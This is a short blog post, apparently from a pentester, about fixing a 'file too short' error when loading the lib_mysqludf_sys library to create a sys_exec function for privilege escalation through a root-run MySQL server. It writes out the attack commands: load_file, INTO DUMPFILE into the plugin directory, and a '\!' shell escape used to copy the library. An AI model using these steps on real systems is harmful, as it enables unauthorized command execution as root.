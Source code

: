 ```yaml
---
title: "MySQL Error `file too short` when creating sys_exec function"
layout: post
published: true
---
```


I’ve recently encountered an interesting error “file too short” when escalating privileges on a Linux box via MySQL Library (lib_mysqludf_sys_64.so).

```bash
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/lib_mysqludf_sys_64.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';

ERROR 1126 (HY000): Can't open shared library 'lib_mysqludf_sys_64.so' (errno: 11 /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so: file too short)
```


Turned out that “SELECT … INTO DUMPFILE” clause did not write a library properly into plugins’ directory in “/usr/lib/mysql/plugin/” (the file size is 1)


### Solution
MySQL is running as root so we can try to copy the file manually via breaking into a shell 

```bash
mysql> \! cp lib_mysqludf_sys_64.so /usr/lib/mysql/plugin/

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)
```

### Software version details

- Database version MySQL 5.7.30 
- mysql process is running as a root
- OS: Debian 9.12 (stretch) x86_64

Cheers,</br>
bitsailor